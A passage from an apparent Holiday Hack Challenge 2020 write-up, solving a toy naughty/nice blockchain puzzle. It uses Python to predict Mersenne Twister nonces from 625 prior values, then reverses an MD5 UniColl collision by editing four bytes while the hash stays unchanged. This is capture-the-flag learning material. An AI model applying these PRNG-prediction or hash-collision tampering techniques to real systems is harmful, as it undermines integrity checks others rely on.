return False
def add\_block(self, block\_data):
self.index += 1
b = Block(self.index, block\_data, self.last\_hash\_value)
self.blocks.append(b)
self.last\_hash\_value = b.full\_hash()
def verify\_chain(self, publickey, previous\_hash=None):
flag = True
# unless we're explicitly told what the initial last hash should be, we assume that
# the initial block will be the genesis block and will have a fixed previous\_hash
if previous\_hash is None:
previous\_hash = genesis\_block\_fake\_hash
for i in range(0, len(self.blocks)): # assume Genesis block integrity
block\_no = self.blocks\[i\].index
if not self.blocks\[i\].verify\_types():
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Wrong data type(s) at block {block\_no}.')
if self.blocks\[i\].index != i + self.initial\_index:
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Wrong block index at what should be block {i + self.initial\_index}: {block\_no}.')
if self.blocks\[i\].previous\_hash != previous\_hash:
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Wrong previous hash at block {block\_no}.')
hash\_obj = MD5.new()
hash\_obj.update(self.blocks\[i\].block\_data())
signer = PKCS1\_v1\_5.new(publickey)
if signer.verify(hash\_obj, b64decode(self.blocks\[i\].sig)) is False:
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Bad signature at block {block\_no}.')
if flag == False:
print(f'\\n\*\*\* WARNING \*\*\* Blockchain invalid from block {block\_no} onward.\\n')
return False
previous\_hash = self.blocks\[i\].full\_hash()
return True
def save\_a\_block(self, index, filename=None):
if filename is None:
filename = 'block.dat'
with open(filename, 'wb') as fh:
fh.write(self.blocks\[index\].block\_data\_signed())
def save\_chain(self, filename=None):
if filename is None:
filname = 'blockchain.dat'
with open(filename, 'wb') as fh:
i = 0
while(i < len(self.blocks)):
fh.write(self.blocks\[i\].block\_data\_signed())
i += 1
def load\_chain(self, filename=None):
count = 0
if filename is None:
filename = 'blockchain.dat'
with open(filename, 'rb') as fh:
while(1):
try:
self.blocks.append(Block(load=True).load\_a\_block(fh))
self.index = self.blocks\[-1\].index
count += 1
except ValueError:
return count
if \_\_name\_\_ == '\_\_main\_\_':
with open('private.pem', 'rb') as fh:
private\_key = RSA.importKey(fh.read())
public\_key = private\_key.publickey()
c1 = Chain()
for i in range(9):
block\_data = {}
documents = \[\]
doc = {}
doc\['data'\] = bytes(('This is block %i of the naughty/nice blockchain.' % (i)).encode('utf-8'))
doc\['type'\] = 1
doc\['length'\] = len(doc\['data'\])
documents.append(doc)
block\_data\['documents'\] = documents
block\_data\['pid'\] = 123 # this is the pid, or "person id," that the block is about
block\_data\['rid'\] = 456 # this is the rid, or "reporter id," of the reporting elf
block\_data\['score'\] = 100 # this is the Naughty/Nice score of the report
block\_data\['sign'\] = Nice # this indicates whether the report is about naughty or nice behavior
c1.add\_block(block\_data)
print(c1.blocks\[3\])
print('C1: Block chain verify: %s' % (c1.verify\_chain(public\_key)))
#Note: This is how you would load and verify a blockchain contained in a file called blockchain.dat
#
with open('official\_public.pem', 'rb') as fh:
official\_public\_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')
print('C2: Block chain verify: %s' % (c2.verify\_chain(official\_public\_key)))
print(c2.blocks\[0\])
c2.blocks\[0\].dump\_doc(1)
predictor = MT19937Predictor()
nonce\_list= \[\]
# Adding all the nonces of all the blocks in a list
for i in range(len(c2.blocks)):
nonce\_list.append(c2.blocks\[i\].nonce)
# reeversing the list
nonce\_list.reverse()
# get the first 625 nonces
last\_625\_block\_nonce = list(itertools.islice(nonce\_list,625))
# reverse the list so we get the last 625 nonces
last\_625\_block\_nonce.reverse()
# Setting the data for 625 nonces to the MT19937Predictor
for nonce in last\_625\_block\_nonce:
predictor.setrandbits(nonce, 64)
# calcutated nonce and added for block 12997 \[lietarally ran the code at this point to get the nonce for block 12997 using predictor.getrandbits()\]
predictor.setrandbits(13205885317093879758,64)
# calculated nonce and added for block 12998 \[lietarally ran the code at this point to get the nonce for block 12997 using predictor.getrandbits()\]
predictor.setrandbits(109892600914328301,64)
# calculated nonce and added for block 12999 \[lietarally ran the code at this point to get the nonce for block 12997 using predictor.getrandbits()\]
predictor.setrandbits(9533956617156166628,64)
# Get the nonce for block 13000
print(predictor.getrandbits(64))
Determine and extract the original naughty document:
Below is part of the 129459.pdf - Jack’s document (obviously a nice one!)

Nice document for Jack Frost
Open the file 129549.pdf in an online hex editor [https://hexed.it/] and make changes (See right side)
Ref: https://speakerdeck.com/ange/colltris?slide=194

PDF which Jack Frost had (left, the nice list) and the recovered PDF (right, the naughty list)
Save the changes as a different PDF file. Open and you see the different PDF – the naughty list, the original one meant for Jack Frost.

The naughty list for Jack Frost
Determine the flag for naughty/nice in the Jack’s block :
Open the Jack’s block file in online hex editor and compare the text version of the block to find the nice/naughty flag.
Jake must have changed this from 0 (original which means naughty) to 1 (nice).

The position of the naughty nice flag in the hex for the PDF
Determine 3rd and 4th byte which were changed by Jake :
At this point, we have two bytes identified – one for the PDF page number and another for nice/naughty flag.

The 3rd and 4th bytes identified
Following the Unicoll computation technique as noted in https://speakerdeck.com/ange/colltris?slide=109
The 1st byte – This is the nice/naughty flag we decreased by 1 (31 to 30)
The 2ndByte – This would be the 10th byte of the next block which we need to increase by 1 (D6 to D7)
The 3rd Byte – This is the PDF page number which we increased by 1 (32 to 33)
The 4th Byte – This would be the 10th byte of the next block which we need to decrease by 1 (1C to 1B)
Please see the screenshot below for the all changes:
left side is Jake's block (block.dat)
right side is original block which Jake changed (block_restored.dat) - changes in bytes noted below.

Jack's block (left) and original block restored which Jack changed (right) - remember, the MD5 for both is still same!
Jake was able to change the original block without changing the hash. His block’s MD5 has was b10b4a6bd373b61f32f4fd3a0cdfbf84
We needed to undo his changes and restore the original block, without changing the MD5 hash.
As you can see with the below changes, the hashes still don’t change.
MD5 Hash of Jake's block (block.dat) - b10b4a6bd373b61f32f4fd3a0cdfbf84

MD5 Hash of Jake's block (block.dat) - b10b4a6bd373b61f32f4fd3a0cdfbf84
MD5 Hash of original block (block_restored.dat) - b10b4a6bd373b61f32f4fd3a0cdfbf84
MD5 Hash of original block which Jack modified (block_restored.dat) - b10b4a6bd373b61f32f4fd3a0cdfbf84
{kind=link}
Now we just need to save the changes in a new file block_restored.dat and calculate the SHA256 hash of it.
SHA256 of the block_restored.dat
fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb

SHA256 of the restored block - fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb
The below zip file contains the changed naughty_nice.py (please remove .txt after extraction)
11b_naughty_nice_changed.pyDownload
All objectives are completed now

All narratives have been unlocked

The best part!
After completing all the objectives, you go to Santa's office.
Tinsel Upatree says "Quickly go out to the balcony to be recognized"!!

You go the roof and and congratulations are in order!!!!


Jack's plan is foiled!

The exclusive winner hoodie :
I got myself the exclusive Holiday Hack challenge 2020 winner hoodie!